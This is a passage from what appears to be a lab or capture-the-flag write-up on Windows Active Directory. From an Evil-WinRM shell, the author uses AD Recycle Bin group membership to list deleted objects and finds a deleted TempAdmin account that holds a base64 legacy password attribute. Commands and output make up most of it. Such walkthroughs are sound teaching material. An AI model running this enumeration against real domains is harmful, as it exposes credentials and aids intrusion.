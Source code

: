 ```bash
Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/29/2020 9:05:40 PM

Logon hours allowed          All

Local Group Memberships      *AD Recycle Bin       *IT
                             *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.

*Evil-WinRM* PS C:\Users\arksvc\Documents>
```
{: .nolineno}
{: .nolineno}

Since this user arksvc is a part of AD Recycle Bin that means this user have capability to see the deleted items in AD.

## **[AD Recycle Bin](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#a-d-recycle-bin)**

This group gives you permission to read deleted AD object. Something juicy information can be found in there:

```bash
#This is not a powerview command, it's a feature from the AD management powershell module of Microsoft
#You need to be in the "AD Recycle Bin" group of the AD to list the deleted AD objects

Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```
{: .nolineno}
{: .nolineno}

I executed this command and I got this →

```bash
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *

...
...
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
DisplayName                     : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
givenName                       : TempAdmin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
```